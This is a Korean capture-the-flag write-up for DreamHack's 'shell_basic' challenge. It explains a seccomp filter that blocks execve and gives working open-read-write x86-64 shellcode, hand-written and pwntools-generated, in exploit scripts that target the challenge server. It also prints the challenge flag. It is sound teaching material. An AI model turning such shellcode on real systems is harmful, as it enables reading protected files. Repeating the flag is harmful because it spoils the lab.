






# B4 · shell_basic

### 1. 문제 확인

`pwnable` 분류의 B4 문제로, 입력한 셸코드를 그대로 실행해 주는 바이너리다. 단, `execve` 계열이 막혀 있어 셸을 띄울 수 없고, 플래그 파일을 직접 **열어서 읽어 출력(ORW)**하는 셸코드를 넣어야 한다.

<p align="center">
  
</p>

### 2. 코드 분석 — execve를 막아 둔 함수

핵심은 `banned_execve()`와 `main()` 두 곳이다.

```c
void banned_execve() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_ALLOW);                      // 기본은 모든 syscall 허용
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);    // execve 호출 시 프로세스 종료
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);  // execveat 도 종료
  seccomp_load(ctx);                                       // 필터 적용
}
```

- **`seccomp_init(SCMP_ACT_ALLOW)`** — 필터의 기본 정책을 정한다. `SCMP_ACT_ALLOW`라서 기본적으로 모든 syscall은 통과한다.
- **`seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0)`** — 예외 규칙을 추가한다. 인자는 `(필터, 걸렸을 때 동작, 대상 syscall, 인자검사 개수)` 순이고, 여기서는 `SCMP_SYS(execve)` 호출이 들어오면 `SCMP_ACT_KILL`로 **프로세스를 죽인다.** `execveat`도 같은 방식으로 막는다.
- **`seccomp_load(ctx)`** — 위에서 만든 필터를 실제 커널에 적용한다.

즉 `execve`/`execveat`가 봉인되어 `system("/bin/sh")` 같은 셸 실행이 불가능하다. 그래서 **open → read → write(ORW)**로 플래그 파일을 읽어 출력해야 한다.

```c
void main(int argc, char *argv[]) {
  char *shellcode = mmap(NULL, 0x1000,
                         PROT_READ | PROT_WRITE | PROT_EXEC,       // 읽기+쓰기+실행(RWX) 페이지
                         MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
  void (*sc)();
  ...
  read(0, shellcode, 0x1000);    // 입력을 RWX 페이지에 그대로 저장
  sc = (void *)shellcode;
  sc();                          // 그 메모리를 함수처럼 실행
}
```

- **`mmap(..., PROT_READ|PROT_WRITE|PROT_EXEC, ...)`** — 실행 가능한(RWX) 메모리 한 페이지를 잡는다. 여기에 올라간 바이트는 곧 코드로 실행될 수 있다.
- `read`로 받은 입력을 이 페이지에 넣고, 함수 포인터 `sc`로 **그 입력을 그대로 실행**한다. 따라서 우리가 보낸 셸코드가 실행된다.

### 3. ORW 셸코드 작성

셸이 막혔으니 `/home/shell_basic/flag_name_is_loooooong` 파일을 **open → read → write** 순서로 처리하는 셸코드를 작성한다.

<p align="center">
  
</p>

**(1) 파일 경로 문자열을 스택에 쌓기**

```asm
push 0x0
mov rax, 0x676e6f6f6f6f6f6f    ; 경로를 8바이트씩 잘라 거꾸로(리틀엔디안)
push rax                        ; 스택에 push → 메모리에 "/home/.../loooooong\0" 완성
...
mov rdi, rsp                    ; rsp = 방금 쌓은 문자열의 시작 주소 → open의 1번째 인자
```

문자열은 레지스터 값이 아니라 **스택(메모리)에 올라가 있고**, 그 메모리를 가리키는 포인터가 `rsp`다. open은 "문자열이 있는 주소"를 받으므로 `rax`가 아니라 **문자열이 놓인 위치인 `rsp`**를 `rdi`로 넘긴다.

**(2) open — 파일 열기**

```asm
mov rdi, rsp      ; 파일 경로 주소
xor rsi, rsi      ; O_RDONLY (0)
xor rdx, rdx      ; 0
mov rax, 2        ; syscall 2 = open
syscall           ; 반환값(fd)이 rax에 담김
```

**(3) read — 연 파일을 버퍼로 읽기**

```asm
mov rdi, rax      ; open이 돌려준 fd
mov rsi, rsp
sub rsi, 0x30     ; 읽어 둘 버퍼(스택에서 0x30 아래 공간)
mov rdx, 0x30     ; 0x30바이트
mov rax, 0        ; syscall 0 = read
syscall
```

open이 성공하면 파일 식별자(fd)가 `rax`에 들어오므로, 그 값을 read의 fd 자리인 `rdi`로 넘긴다. 파일 내용을 `rsi`가 가리키는 버퍼에 `rdx`(0x30)만큼 담는다.

**(4) write — 읽은 내용을 화면에 출력**

```asm
mov rdi, 1        ; fd 1 = stdout(표준출력)
mov rax, 1        ; syscall 1 = write
syscall           ; rsi(버퍼)·rdx(0x30)는 read 때 값 그대로 재사용
```

read로 버퍼에 담아만 두면 눈에 보이지 않으므로, 같은 버퍼를 **stdout(fd 1)로 write**해서 플래그를 화면에 뿌린다. `rsi`·`rdx`는 앞 단계 값이 그대로 남아 있어 다시 세팅하지 않는다.

익스플로잇은 이 어셈블리를 `asm()`으로 기계어로 바꿔 전송한다.

```python
#!/usr/bin/env python3
from pwn import *
context.arch = 'amd64'

shellcode = '''
    push 0x0
    mov rax, 0x676e6f6f6f6f6f6f
    push rax
    mov rax, 0x6c5f73695f656d61
    push rax
    mov rax, 0x6e5f67616c662f63
    push rax
    mov rax, 0x697361625f6c6c65
    push rax
    mov rax, 0x68732f656d6f682f
    push rax
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 2
    syscall
    mov rdi, rax
    mov rsi, rsp
    sub rsi, 0x30
    mov rdx, 0x30
    mov rax, 0x0
    syscall
    mov rdi, 1
    mov rax, 0x1
    syscall
'''

p = remote('host3.dreamhack.games', 10169)   # 현재 문제 화면의 포트
p.sendafter(b'shellcode: ', asm(shellcode))
print(p.recvall(timeout=3).decode(errors='ignore'))
```

### 4. shellcraft로 더 간단하게

위 (2)~(4)의 open/read/write 과정은 pwntools의 `shellcraft`로 직접 짜지 않고 자동 생성할 수 있다.

<p align="center">
  
</p>

이때 **`context.arch = "amd64"` 지정이 중요하다.** shellcraft는 지정된 아키텍처에 맞는 셸코드를 만들기 때문에, 이 문제(64비트)에서는 반드시 `amd64`로 맞춰야 올바른 셸코드가 생성된다.

<p align="center">
  
</p>

```python
from pwn import *
p = remote("host3.dreamhack.games", 10169)
context.arch = "amd64"

dir = "/home/shell_basic/flag_name_is_loooooong"
shellcode  = shellcraft.open(dir)            # open(경로)
shellcode += shellcraft.read('rax', 'rsp', 0x30)   # read(열린 fd, rsp, 0x30)
shellcode += shellcraft.write(1, 'rsp', 0x30)      # write(stdout, rsp, 0x30)

p.sendlineafter(b"shellcode: ", asm(shellcode))
p.interactive()
```

`shellcraft.open/read/write`가 3절에서 손으로 쓴 것과 같은 ORW 셸코드를 대신 만들어 준다. 경로만 넣으면 되므로 훨씬 간단하다.

### 5. 실행 결과

셸코드를 보내면 파일을 열어 읽은 내용이 그대로 출력되고, 그 안에서 FLAG를 확인한다.

<p align="center">
  
</p>

`shellcraft` 버전도 동일하게 플래그가 출력된다.

<p align="center">
  
</p>

```text
DH{ca562d7cf1db6c55cb11c4ec350a3c0b}
```

위 값을 DreamHack 문제 페이지의 FLAG 입력란에 붙여 넣어 제출한다.

### 6. 정리

- `execve`/`execveat`가 seccomp로 봉인되어 셸을 띄울 수 없을 때는, 플래그 파일을 **open → read → write(ORW)**로 직접 읽어 출력한다.
- 파일 경로 문자열은 레지스터가 아니라 **스택(메모리)에 쌓고, 그 주소(`rsp`)를 넘긴다.** open이 돌려준 fd(`rax`)는 read의 fd로 이어지고, read가 채운 버퍼를 그대로 write해 화면에 뿌린다.
- 직접 어셈블리를 쓰지 않아도 `shellcraft.open/read/write`로 같은 셸코드를 만들 수 있으며, 이때 `context.arch`를 바이너리에 맞게(`amd64`) 지정해야 한다.
